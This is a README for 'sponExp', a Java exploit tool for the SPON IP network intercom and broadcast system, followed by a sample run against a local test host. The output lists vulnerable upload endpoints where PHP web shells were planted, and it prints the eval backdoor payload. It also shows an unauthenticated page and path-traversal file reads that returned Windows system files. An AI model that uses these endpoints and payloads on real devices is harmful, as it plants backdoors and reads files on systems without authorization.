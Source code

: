 # sponExp
世邦通信 IP网络对讲广播系统 Exp利用工具

E:\java-study\sponExp\target>java -jar sponExp.jar
[*] java -jar exp.jar -t [url|filePath] <-ph [127.0.0.1] -pp [8080]>

E:\java-study\sponExp\target>java -jar sponExp.jar -t http://192.168.43.132
http://192.168.43.132版本: XC9000
----------------------------------------------------------------------
[+]upload1: http://192.168.43.132/upload/my_parser.php,http://192.168.43.132/upload/files/dFGerqbs.php
<?php @eval($_REQUEST['R4gd0ll']);?>
----------------------------------------------------------------------
[-]: 不存在upload2漏洞
----------------------------------------------------------------------
[-]: 不存在upload3漏洞
----------------------------------------------------------------------
[+]upload4: http://192.168.43.132/php/uploadjson.php,http://192.168.43.132/lan/aUsT8WEk.php
?<?php @eval($_REQUEST['R4gd0ll']);?>
----------------------------------------------------------------------
[+]upload5: http://192.168.43.132/php/busyscreenshotpush.php,http://192.168.43.132/php/1_2_1p.php

----------------------------------------------------------------------
[+]upload6: http://192.168.43.132/php/videobacktrackpush.php,http://192.168.43.132/php/1_2_2l.php

----------------------------------------------------------------------
[+]unauth1: http://192.168.43.132/prison/index.html
----------------------------------------------------------------------
[-]: 不存在unauth2漏洞
----------------------------------------------------------------------
[-]: 不存在unauth3漏洞
----------------------------------------------------------------------
[-]: 不存在unauth4漏洞
----------------------------------------------------------------------
[-]: 不存在unauth5漏洞
----------------------------------------------------------------------
[+]fileread1: http://192.168.43.132/php/exportrecord.php?downtype=10&downname=C:\\windows\\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

----------------------------------------------------------------------
[+]fileread2: http://192.168.43.132/php/getjson.php
{"res":"1","data":'; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
'}
----------------------------------------------------------------------
[-]: 不存在fileread3漏洞
----------------------------------------------------------------------
[-]: 不存在passwd1漏洞
----------------------------------------------------------------------
[-]: 不存在rce1漏洞
----------------------------------------------------------------------
